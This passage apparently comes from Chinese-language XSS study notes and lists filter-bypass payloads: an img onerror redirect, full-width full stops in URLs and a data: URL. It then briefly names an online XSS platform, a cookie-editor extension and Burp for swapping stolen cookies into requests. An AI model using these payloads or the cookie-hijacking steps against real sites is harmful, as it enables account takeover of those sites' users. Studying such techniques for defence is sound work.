 ```html
<img src="x" onerror=document.location=`\\www.baidu.com`>

# 使用中文句号代替英文点号
<img src="x" onerror="document.location=`http://www。baidu。com`">

# 利用data类型的url代替http://
data:text,alert()
```

# 4 利用 

[XSS plamform](https://xss.pt/xss.php?do=login)

- cookie editor 浏览器插件

- burp 更换 http 头部的 cookie、useragent 字段

## 参考文章

[xss总结](https://johnfrod.top/%e5%ae%89%e5%85%a8/xss%e6%80%bb%e7%bb%93/)
[xss编码剖析](https://johnfrod.top/%e5%ae%89%e5%85%a8/xss%e7%bc%96%e7%a0%81%e5%89%96%e6%9e%90/)
[探索XSS利用编码绕过的原理](https://saucer-man.com/information_security/103.html)


